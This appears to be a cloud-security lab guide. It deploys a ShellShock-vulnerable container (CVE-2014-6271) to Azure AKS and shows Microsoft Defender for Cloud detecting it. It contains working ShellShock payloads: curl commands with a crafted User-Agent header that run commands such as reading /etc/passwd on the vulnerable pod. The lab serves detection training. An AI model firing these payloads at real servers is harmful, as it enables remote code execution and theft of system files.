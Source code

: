 # In this lab we will use a ShellShock vulnerable docker image from the Docker Hub, store it in the Azure ACR and from there deploy to Azure AKS

We will exploit Shell-Shock vulnerabilities to execute RCE from an attaker por running in the same cluster

Login to your Azure ACR registry where you will push the vulnerable image

```
docker login [LOGINSERVER] –u [USERNAME] –p [PASSWORD]
```

Download the shellshock container to your local build machine

```
docker pull vulnerables/cve-2014-6271
```

Run the following commands to properly tag your images to match your ACR account name.

```
 docker tag  vulnerables/cve-2014-6271  [ACR-LOGINSERVER]/
 
 ```

 push docker image to ACR

```
 docker push [ACR-LOGINSERVER]/cve-2014-6271
 ```
In the Azure Portal, navigate to your ACR account, and select Repositories under Services on the left-hand menu

Defender for cloud will trigger the scan in the ACR registry to look for vulnerabilities in the image

Now, we will deploy a kubernetes pod using the shell-shock image stored in the ACR

Note we export the pod using the port 8080

As we will connect from another pod in the cluster to exploit RCE vulnerabilities of this container, we need to create a Kubernetes Service and map it to this deployment using match labels

```
apiVersion: v1
kind: Service
metadata:
  name: service-shell-shock
spec:
  type: ClusterIP  # ClusterIP is the default service type even if not specified
  selector:
    tag: shell-shock
  ports:
  - name: port8080
    protocol: TCP
    port: 8080  # this is the service port
    targetPort: 80 # this is the container port
```

```
apiVersion: apps/v1
kind: Deployment
metadata:
  name: shell-shock
spec:
  selector:
    matchLabels:
      app: shell-shock
  template:
    metadata:
      labels:
        app: shell-shock # the label for the pods and the deployments
    spec:
      containers:
      - name: shell-shock
        image: k8sgoatacr.azurecr.io/cve-2014-6271:latest # IMPORTANT: update with your own repository
        imagePullPolicy: Always
        ports:
        - containerPort: 8080 
```
Get the pods ip address using 

```
kubectl get pods -o wide
```

Enter into the shell-shock container

```
kubectl exec -it [shell-shock-pod] -- /bin/bash
````

And from the nginx pod in the cluster, we wille exploit RCE

```
kubectl exec -it [name-nginx-attacker-pod] -- /bin/bash
```

From here, issue commands to list /etc/passwd

```
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'" http://[ip-address-shell-shock-pod]:80/cgi-bin/vulnerable
```
and
```
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'whoami'" http://[ip-address-shell-shock-pod]/cgi-bin/vulnerable
```

Now, wait for Defender to raise a recommendation under the ACR to resolve vulnerabilities found. This recommendation is part of SAST scanning, once the image has been pushed to the registry the sandbox will trigger the scan of vulnerabilities

![container-vul](/images/container-vuln.png)

Also, you may want to use the Cloud Security Explorer with the specific CVE-ID


![container-vuln-cloudsecexplorer](/images/container-vuln-cloud-sec-explorer.png)

From a DAST, vulnerable images can also be scanned by the runtime detection capabilities of Defender. Look for a recommendation like 'Running container images should have vulnerability findings resolved' and search for the specific CVE-ID of Shellshock

![running-container-vuln](/images/running-vulnerable-container.png)
 